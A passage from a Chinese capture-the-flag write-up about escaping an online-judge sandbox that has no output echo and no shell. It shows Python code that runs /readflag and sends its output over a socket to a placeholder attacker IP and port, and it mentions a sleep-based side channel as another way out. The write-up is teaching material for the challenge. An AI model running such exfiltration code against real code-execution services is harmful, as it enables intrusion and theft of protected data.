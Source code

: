 # (2/3)  Online Judge

## 【中等】Desirable

本题去除了回显，并且删除了所有可执行文件。有的 OJ 就是这么设计的（或，禁止了 system() 调用），当然我不好指名道姓。这种防护有多弱，大家在解出本题的过程中应该能体会到。

并且本题还对 /flag 设置了 600 权限，避免你通过 open() 直接打开，需要 **RCE** 。当然善良的出题人还贴心地在根目录下放了 **readflag** 生怕大家看不见，就算不知道 **SUID** 相关知识，看到这玩意儿试着运行一下 Flag 也能出来。

至于该如何获取回显呢？如果大家有仔细研究过 Hard 难度的环境的话，应该能发现，直接**出网发送**就行了。当然还有一种**侧信道泄露**的做法，类似于时间盲注，二分一下 sleep() 的条件判断回显。

所以说，本题依旧没有特别难。再加上，善良的出题人令环境容器能出公网（之前也提到过很多次），就更简单了。首先**列一下目录**，或者观察一下环境变量，发现根目录下有 /readflag 直接执行完事。

```python
def s(d, i, p):
    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((i, p))
    s.sendall(d)

# 列目录
#import os
#s(repr(os.listdir('/')).encode(), 'IP', PORT)

# 获取 flag
import subprocess
s(subprocess.check_output(['/readflag']), 'IP', PORT)
```

注意到有选手使用 os.system() 或者 os.popen() 执行命令，在这里会爆出 **Runtime Error**，为什么呢？大家如果细看它们的源代码的话，会发现最终调用到 subprocess.Popen() 的时候都会带个 **shell=True** 的参数，顾名思义，就是使用系统的 shell 执行你提供的字符串，即 /bin/sh -c 'YOUR_COMMAND' 。所以在本题删除几乎所有可执行文件的前提下，是没有办法成功的。

至于那个非预期，我将在下一部分好好地讲一讲。






